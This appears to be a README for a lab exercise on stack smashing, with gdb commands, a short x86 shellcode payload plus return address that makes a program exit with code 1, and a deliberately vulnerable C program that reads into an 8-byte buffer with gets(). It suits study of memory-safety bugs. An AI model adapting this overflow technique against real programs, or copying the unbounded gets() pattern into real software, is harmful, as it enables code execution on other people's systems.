 Print the address of the variable `buffer`

```
(gdb) p &buffer
$1 = (char (*)[8]) 0xffffcd18
```

Craft the exploit with the shellcode payload and memory address of the `buffer`

```
\x31\xc0\x40\x89\xc3\xcd\x80\x90\x90\x90\x90\x90\x18\xcd\xff\xff
```

Execute the exploit inside GDB

```
(gdb) r <<< $(echo -ne "\x31\xc0\x40\x89\xc3\xcd\x80\x90\x90\x90\x90\x90\x18\xcd\xff\xff")
```

The program should terminate with the exit status code `1`

```
[Inferior 1 (process 1027954) exited with code 01]
```

---

## Introduction

A vulnerable C source code is provided that accepts an unbounded number of non-null byte characters from standard input.
The goal is to construct a **shellcode** to cause the program to terminate with a desired **exit code** of `1` using a stack smashing attack.

Note that crashes due to malformed "shellcode" will not result in an exit code of `1` and therefore will not count.

---

## Pre-requisites

### Vulnerable C Source Code

```c
// vuln.c
#include <stdio.h>

void vuln() {
    char buffer[8];
    gets(buffer);
}

int main() {
    vuln();
    while (1) {
    }
}
```
